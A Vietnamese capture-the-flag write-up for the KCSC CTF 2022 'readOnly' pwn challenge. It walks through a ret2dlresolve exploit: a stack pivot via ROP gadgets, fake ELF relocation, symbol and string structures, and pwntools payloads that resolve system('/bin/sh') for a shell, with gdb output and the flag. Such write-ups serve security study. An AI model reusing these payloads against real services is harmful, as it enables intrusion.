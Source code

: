 # KCSC CTF 2022 - readOnly

Các bạn có thể tải chall ở repo của mình: [readOnly.zip](readOnly.zip)

# 1. Tìm lỗi

Với chall này, ta thấy chỉ có mỗi hàm read của libc, không có hàm nào để in dữ liệu ra. Vì vậy ta dự đoán rằng ta sẽ khai thác bằng kỹ thuật ret2dlresolve.

Thông thường, khi mình thực hiện ret2dlresolve trên 64 bit, mình sẽ kiểm tra xem địa chỉ có ghi được thuộc khoảng nào. Nếu thuộc vào khoảng `0x40xxxx` thì ta chắc chắn thực hiện được ret2dlresolve. Nhưng nếu địa chỉ là `0x60xxxx` thì sẽ bị lỗi ngay tại lúc kiểm tra version của dlresolver.

# 2. Ý tưởng

Như thường lệ, ta sẽ stack pivot để có thể điều khiển stack (đó giờ mình làm vậy, còn nếu thực thi mà không cần stack pivot thì mình chưa thử), sau đó ta tạo các structure của JMPREL, SYMTAB và STRTAB và đưa lên stack. Cuối cùng thực thi dlresolver để phân giải và thực thi hàm system để tạo shell.

Tổng kết:
- Stage 1: Stack pivot
- Stage 2.1: Ret2dlresolve - Create structures
- Stage 2.2: Ret2dlresolve - Get shell

# 3. Khai thác

### Stage 1: Stack pivot

Để stack pivot, ta trước tiên cần những thứ sau:

1. Gadget `leave ; ret` hoặc `pop esp`

```bash
$ ROPgadget --binary readOnly | grep ": leave"
0x0000000000401208 : leave ; ret
```

2. Gadget `pop` để điều chỉnh các thanh ghi phục vụ cho việc ghi dữ liệu trước khi pivot

```bash
$ ROPgadget --binary readOnly | grep ": pop"
...
0x000000000040115d : pop rbp ; ret
0x0000000000401293 : pop rdi ; ret
0x0000000000401291 : pop rsi ; pop r15 ; ret
...
```

Ta chỉ cần `pop rdi` và `pop rsi` là đủ.

3. Địa chỉ ghi được

Để lấy địa chỉ ghi được, ta dùng gdb và gõ lệnh `vmmap` của gdb-gef để lấy:

```gdb
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
...
0x00000000403000 0x00000000404000 0x00000000002000 r-- /home/nguyenhuutri/CTF/KCSC/read0nly/readOnly
0x00000000404000 0x00000000405000 0x00000000003000 rw- /home/nguyenhuutri/CTF/KCSC/read0nly/readOnly
0x007ffff7deb000 0x007ffff7e10000 0x00000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
...
```

Ta sẽ lấy địa chỉ trong khoảng `0x404000` và `0x405000` vì địa chỉ này cố định, phù hợp để thực hiện ret2dlresolve. Vậy ta chọn địa chỉ là `0x404a00`, chọn cao cao xíu nhưng đừng cao quá tại vì ta phải resolve function, sẽ đẩy địa chỉ stack xuống thấp nên nếu ta chọn địa chỉ thấp thì resolve sẽ ra khỏi địa chỉ sử dụng được, dẫn tới segfault.

Vậy ta có payload đầu tiên:

```python
pop_rdi = 0x0000000000401293
pop_rsi_r15 = 0x0000000000401291
leave_ret = 0x0000000000401208
rw_section = 0x00000000404a00

payload = b'A'*(56-8)
payload += flat(
    rw_section,
    pop_rsi_r15,
    rw_section,
    0,
    exe.plt['read'],
    leave_ret
    )
payload = payload.ljust(0x100, b'P')
p.send(payload)
```

### Stage 2.1: Ret2dlresolve - Create structures

Ở bước 2, đầu tiên ta sẽ chọn ra địa chỉ cho SYMTAB, JMPREL và STRTAB. Địa chỉ chọn được sẽ phải thỏa những cái như trong [đây](https://github.com/nhtri2003gmail/CTFNote/tree/master/technique/Ret2dlresolve-64bit#fake-reloc_arg). Ta sẽ thử các địa chỉ xem coi địa chỉ nào thì hợp lí và ta có được địa chỉ để đặt 3 cái fake structure như sau:

```python
JMPREL = 0x4005b8
SYMTAB = 0x4003d0
STRTAB = 0x4004a8
dlresolve = 0x401020

SYMTAB_addr = 0x404a50
JMPREL_addr = 0x404a70
STRTAB_addr = 0x404a90
```

Kiểm tra lại thì thấy oke hết rồi:

```python
>>> JMPREL = 0x4005b8
>>> SYMTAB = 0x4003d0
>>> STRTAB = 0x4004a8
>>> dlresolve = 0x401020
>>> 
>>> SYMTAB_addr = 0x404a50
>>> JMPREL_addr = 0x404a70
>>> STRTAB_addr = 0x404a90
>>> (SYMTAB_addr - SYMTAB)/24
752.0        # symbol_number
>>> (JMPREL_addr - JMPREL)/24
733.0        # reloc_arg
>>> (STRTAB_addr - STRTAB)
17896        # st_name
```

Kế đến ta tìm hết 3 cái là `symbol_number`, `reloc_arg` và `st_name` như trên:

```python
symbol_number = int((SYMTAB_addr - SYMTAB)/24)
reloc_arg = int((JMPREL_addr - JMPREL)/24)
st_name = STRTAB_addr - STRTAB
```

Tiếp theo, ta sẽ lần lượt tạo các structure cho SYMTAB trước:

```python
st_info = 0x12
st_other = 0
st_shndx = 0
st_value = 0
st_size = 0
SYMTAB_struct = p32(st_name) \
    + p8(st_info) \
    + p8(st_other) \
    + p16(st_shndx) \
    + p64(st_value) \
    + p64(st_size)
```

Với SYMTAB, các thông số ta không fake thì để mặc định. Ta có thể dùng gdb để tìm các thông số này (Tìm từ JMPREL trước rồi tới SYMTAB)

Và ta tạo tiếp structure cho JMPREL:

```python
r_offset = 0x404b30
r_info = (symbol_number << 32) | 7
r_addend = 0
JMPREL_struct = flat(r_offset, r_info, r_addend)
```

`r_offset` chỉ cần là địa chỉ ghi được là oke nên ta chọn đại 1 vị trí là được rồi. Cuối cùng là STRTAB, à quên, ta chỉ cần đặt chuỗi `system\x00\x00` vào vị trí mà ta chọn là được rồi =)))

### Stage 2.2: Ret2dlresolve - Get shell

Vậy bây giờ ta đã có đủ mọi thứ cần thiết. Bây giờ ta chỉ việc input vào và cho nó thực thi nữa là xong:

```python
payload = flat(
    b'A'*8,          # Fake rbp
    pop_rsi_r15,
    0,
    0,
    pop_rdi,
    0x404a98,        # String /bin/sh

    dlresolve,
    reloc_arg,       # Reloc_arg
    0,
    0,
    SYMTAB_struct,
    0,
    JMPREL_struct,
    0,
    b'system\x00\x00',
    b'/bin/sh\x00'
    )
p.send(payload)
```

Vì đây là 64 bit nên ta phải setup hết các register rdi, rsi rồi mới hẵn resolve. Cho script nhập dữ liệu vào và ta debug với gdb, dừng ngay tại câu lệnh đầu tiên của dlresolver để kiểm tra `reloc_arg` và structure:

```gdb
gef➤  x/xg $rsp
0x404a38:	0x00000000000002dd    # reloc_arg

gef➤  # x/3xg <JMPREL> + 0x2dd*24
gef➤  x/3xg 0x4005b8 + 0x2dd*24
0x404a70:	0x0000000000404b30	0x000002f000000007
0x404a80:	0x0000000000000000

gef➤  x/3xg <SYMTAB> + (0x000002f000000007>>32)*24
0x404a50:	0x00000012000045e8	0x0000000000000000
0x404a60:	0x0000000000000000

gef➤  x/s <STRTAB> + 0x45e8
0x404a90:	"system"
```

Vậy bây giờ ta chỉ việc cho nó chạy tiếp để lấy flag thôi. Lưu ý rằng nếu kiểm tra structure đã đúng nhưng bị segfault thì có thể địa chỉ bạn lấy đang cao quá hoặc thấp quá nhé.

Full code: [solve.py](solve.py)

# 4. Lấy cờ

![get-flag.png](images/get-flag.png)

Flag là `KCSC{956d188de865314a96f88f7f0aa02078}`